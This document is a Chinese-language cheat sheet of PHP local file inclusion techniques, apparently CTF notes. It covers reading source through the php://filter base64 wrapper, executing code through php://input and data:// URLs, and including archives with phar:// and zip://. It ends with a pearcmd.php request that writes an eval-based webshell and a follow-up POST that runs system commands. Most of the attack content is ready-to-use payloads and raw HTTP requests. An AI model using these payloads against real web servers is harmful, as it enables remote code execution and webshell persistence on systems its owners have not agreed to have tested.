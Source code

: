 allow_url_include=off默认关闭，开发者使用文件包含往往会开启
allow_url_fopen=on默认开启，一般不用管
<https://blog.csdn.net/weixin_44508748/article/details/108162951>

^
## **php伪协议 文件包含读本地php文件源代码**
```
include php://filter/read=convert.base64-encode/resource=flag.php

包含返回flag.php文件源码字符串的是base64编码内容
进行一次base64解码即可看到源代码

如果是根据名称匹配包含php文件
只需要把名称参数换成php://filter/read=convert.base64-encode/resource=flag即可。

也可中间加个index等字符也可以。
php://filter/read=convert.base64-encode/index/resource=flag
```

^
## **php伪协议 文件包含注入php的php代码**
```
1. 自动包含POST请求体:(需要第一allow_url_include开启)
include php://input
post请求的请求体参数xx=<?php system(); ?>
请求体直接就一个<?php system(); ?>也可。

2. 直接包含代码内容:(需要两个allow开启)
include data://text/plain,<?php phpinfo(); ?>



file_get_contents('data://text/plain,welcome to the zjctf','r')
即为welcome to the zjctf

file_get_contents($_GET['2333']) === 'todat is a happy day'
则?2333=data://text/plain;base64,dG9kYXQgaXMgYSBoYXBweSBkYXk=
```


^
## **php伪协议 文件包含自动解压文件再包含**
```
phar://D:/phpinfo.zip/phpinfo.txt
zip://D:\\phpinfo.jpg%23phpinfo.txt

上传了个压缩包，压缩包中phpinfo.txt中文件为<?php system($_GET[a]); ?>
```


## **pearcmd.php文件包含**
已知文件包含：include $_GET['c'].".php";
裸文件包含, 没有上传点, 可供尝试的只有pearcmd.php上传木马。
先用
```
GET /index.php?+config-create+/&c=pearcmd&/<?=@eval($_POST['cmd']);?>+/var/www/html/test.php HTTP/1.1
```
在/var/www/html下写入webshell
再
```
POST /test.php HTTP/1.1

Content-Type: application/x-www-form-urlencoded
Content-Length: 26

cmd=system("cat 36d.php");
```
也可<https://www.cnblogs.com/Egcrying/p/17665041.html>
